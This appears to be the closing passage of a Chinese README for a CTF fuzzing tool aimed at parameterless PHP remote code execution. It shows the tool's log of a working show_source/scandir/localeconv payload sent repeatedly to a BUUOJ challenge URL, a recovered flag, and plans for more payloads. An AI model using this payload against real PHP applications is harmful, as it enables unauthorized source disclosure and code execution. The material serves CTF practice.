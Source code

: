 ```
    状态: 200
    大小: 352字节
    发现关键词! 响应已保存到: result/1757847380_show_sourc.html


==================================================
处理随机特性Payloads（爆破）
==================================================

Payload: show_source(array_rand(array_flip(scandir(current(localeconv())))));
URL: http://13fe76f2-b104-49db-9997-ec4c3d878d23.node5.buuoj.cn:81/?exp=show_source%28array_rand%28array_flip%28scandir%28current%28localeconv%28%29%29%29%29%29%29%3B
    检测到随机Payload，执行爆破
    [1/10] 发送请求...
        状态: 200, 大小: 352字节
        发现关键词! 响应已保存到: result/1757847381_show_sourc_blast_1.html
    [2/10] 发送请求...
        状态: 200, 大小: 23字节
    [3/10] 发送请求...
        状态: 200, 大小: 23字节
    [4/10] 发送请求...
        状态: 200, 大小: 23字节
    [5/10] 发送请求...
        状态: 200, 大小: 23字节
    [6/10] 发送请求...
        状态: 200, 大小: 23字节
    [7/10] 发送请求...
        状态: 200, 大小: 352字节
        发现关键词! 响应已保存到: result/1757847382_show_sourc_blast_7.html
    [8/10] 发送请求...
        状态: 200, 大小: 352字节
        发现关键词! 响应已保存到: result/1757847383_show_sourc_blast_8.html
    [9/10] 发送请求...
        状态: 200, 大小: 352字节
        发现关键词! 响应已保存到: result/1757847383_show_sourc_blast_9.html
    [10/10] 发送请求...
        状态: 200, 大小: 23字节
    爆破完成: 4次命中关键词
    保存的文件: result/1757847381_show_sourc_blast_1.html, result/1757847382_show_sourc_blast_7.html, result/1757847383_show_sourc_blast_8.html, result/1757847383_show_sourc_blast_9.html
```

### 步骤6：获取Flag

查看 `result/` 目录内容：

```html
$flag = "flag{c9771324-3a34-48a3-9a58-4ddfadf67a97}";
```

## 贡献与改进

欢迎贡献您的想法和代码！以下是计划中的改进方向：

1. **Payload字典扩展**：添加更多无参RCE技术
2. **智能结果分析**：自动提取flag并标记
3. **分布式Fuzzing**：支持多节点并行测试
